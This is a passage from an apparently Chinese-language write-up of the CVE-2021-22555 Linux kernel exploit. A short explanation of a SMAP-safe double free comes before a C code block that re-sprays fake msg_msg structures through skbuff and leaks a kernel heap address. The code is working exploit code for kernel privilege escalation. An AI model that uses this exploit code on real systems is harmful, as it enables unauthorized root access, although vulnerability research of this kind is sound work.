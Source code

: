再次释放skb，将fake辅助消息的`msg_msg->m_list->next`填充为该fake辅助消息的真实地址，即可再次释放fake辅助消息时避免SMAP崩溃。

```c
  printf("[*] Freeing fake secondary messages...\n");
  free_skbuff(ss, secondary_buf, sizeof(secondary_buf));

  // Put kheap_addr at next to leak its content. Assumes zero bytes before
  // kheap_addr.
  printf("[*] Spraying fake secondary messages...\n");
  memset(secondary_buf, 0, sizeof(secondary_buf));
  build_msg_msg((void *)secondary_buf, 0x41414141, 0x42424242,
                sizeof(msg_fake.mtext), kheap_addr - MSG_MSGSEG_SIZE);      // fist 8 bytes must be NULL
  if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
    goto err_rmid;

  // Use the fake secondary message to read from kheap_addr.
  printf("[*] Leaking primary message...\n");
  if (peek_msg(msqid[fake_idx], &msg_fake, sizeof(msg_fake), 1) < 0)
    goto err_rmid;

  // Check if the leak is valid.
  if (*(int *)&msg_fake.mtext[PAGE_SIZE] != MSG_TAG) {
    printf("[-] Error could not leak primary message.\n");
    goto err_rmid;
  }

  // The primary message contains a pointer to the secondary message.
  msg = (struct msg_msg *)&msg_fake.mtext[PAGE_SIZE - MSG_MSG_SIZE];
  kheap_addr = msg->m_list_next;
  if (kheap_addr & (SECONDARY_SIZE - 1))
    kheap_addr = msg->m_list_prev;

  // Calculate the address of the fake secondary message.
  kheap_addr -= SECONDARY_SIZE;
  printf("[+] kheap_addr: %" PRIx64 "\n", kheap_addr);
```

![7](/images/posts/CVE-2021-22555/7.png)
